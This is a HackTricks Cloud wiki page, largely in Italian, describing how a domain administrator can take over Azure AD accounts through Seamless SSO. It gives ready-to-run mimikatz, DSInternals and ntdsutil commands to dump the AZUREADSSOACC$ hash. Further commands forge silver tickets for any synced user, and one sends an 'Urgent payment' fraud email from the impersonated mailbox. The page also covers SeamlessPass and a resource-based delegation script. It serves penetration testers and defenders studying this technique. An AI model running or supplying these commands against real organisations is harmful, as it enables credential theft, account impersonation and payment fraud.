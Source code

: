 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **accede automaticamente gli utenti quando sono sui loro dispositivi aziendali** connessi alla tua rete aziendale. Quando abilitato, **gli utenti non devono digitare le loro password per accedere ad Azure AD**, e di solito, nemmeno digitare i loro nomi utente. Questa funzionalità offre ai tuoi utenti un facile accesso alle tue applicazioni basate su cloud senza necessità di componenti aggiuntivi on-premises.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Fondamentalmente, Azure AD Seamless SSO **accede gli utenti** quando sono **su un PC unito a un dominio on-prem**.

È supportato sia da [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) che da [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Il SSO desktop utilizza **Kerberos** per l'autenticazione. Quando configurato, Azure AD Connect crea un **account computer chiamato AZUREADSSOACC`$`** in AD on-prem. La password dell'account `AZUREADSSOACC$` è **inviata in chiaro ad Azure AD** durante la configurazione.

I **ticket Kerberos** sono **crittografati** utilizzando l'**NTHash (MD4)** della password e Azure AD utilizza la password inviata per decrittografare i ticket.

**Azure AD** espone un **endpoint** (https://autologon.microsoftazuread-sso.com) che accetta i **ticket** Kerberos. Il browser della macchina unita al dominio inoltra i ticket a questo endpoint per il SSO.

### On-prem -> cloud

La **password** dell'utente **`AZUREADSSOACC$` non cambia mai**. Pertanto, un amministratore di dominio potrebbe compromettere il **hash di questo account**, e poi usarlo per **creare ticket silver** per connettersi ad Azure con **qualsiasi utente on-prem sincronizzato**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con l'hash puoi ora **generare biglietti silver**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Per utilizzare il silver ticket, i seguenti passaggi devono essere eseguiti:

1. **Avviare il Browser:** Mozilla Firefox deve essere avviato.
2. **Configurare il Browser:**
* Navigare su **`about:config`**.
* Impostare la preferenza per [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) ai [valori](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) specificati:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Accedere all'Applicazione Web:**
* Visitare un'applicazione web che è integrata con il dominio AAD dell'organizzazione. Un esempio comune è [Office 365](https://portal.office.com/).
4. **Processo di Autenticazione:**
* Nella schermata di accesso, deve essere inserito il nome utente, lasciando vuoto il campo della password.
* Per procedere, premere TAB o ENTER.

{% hint style="success" %}
Questo non bypassa MFA se abilitato
{% endhint %}

#### Opzione 2 senza dcsync - SeamlessPass

È anche possibile eseguire questo attacco **senza un attacco dcsync** per essere più furtivi come [spiegato in questo post del blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Per questo hai solo bisogno di uno dei seguenti:

* **Un TGT di un utente compromesso:** Anche se non ne hai uno ma l'utente è stato compromesso, puoi ottenerne uno utilizzando il trucco di delega TGT falso implementato in molti strumenti come [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) e [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Se hai la chiave KRBTGT, puoi creare il TGT di cui hai bisogno per l'utente attaccato.
* **Hash NTLM o chiave AES di un utente compromesso:** SeamlessPass comunicherà con il controller di dominio con queste informazioni per generare il TGT.
* **Hash NTLM o chiave AES dell'account AZUREADSSOACC$:** Con queste informazioni e l'Identificatore di Sicurezza (SID) dell'utente da attaccare è possibile creare un ticket di servizio e autenticarsi con il cloud (come eseguito nel metodo precedente).

Infine, con il TGT è possibile utilizzare lo strumento [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) con:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Ulteriori informazioni per impostare Firefox per lavorare con SSO senza soluzione di continuità possono essere [**trovate in questo post del blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Creazione di ticket Kerberos per utenti solo cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se gli amministratori di Active Directory hanno accesso ad Azure AD Connect, possono **impostare SID per qualsiasi utente cloud**. In questo modo i **ticket** Kerberos possono essere **creati anche per utenti solo cloud**. L'unico requisito è che il SID sia un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) valido.

{% hint style="danger" %}
La modifica del SID degli utenti admin solo cloud è ora **bloccata da Microsoft**.\
Per informazioni controlla [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Cloud tramite Delegazione Constrainata Basata su Risorse <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Chiunque possa gestire gli account computer (`AZUREADSSOACC$`) nel contenitore o nell'OU in cui si trova questo account, può **configurare una delegazione constrainata basata su risorse sull'account e accedervi**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Sono nel tuo cloud, leggo le email di tutti - hacking Azure AD tramite Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
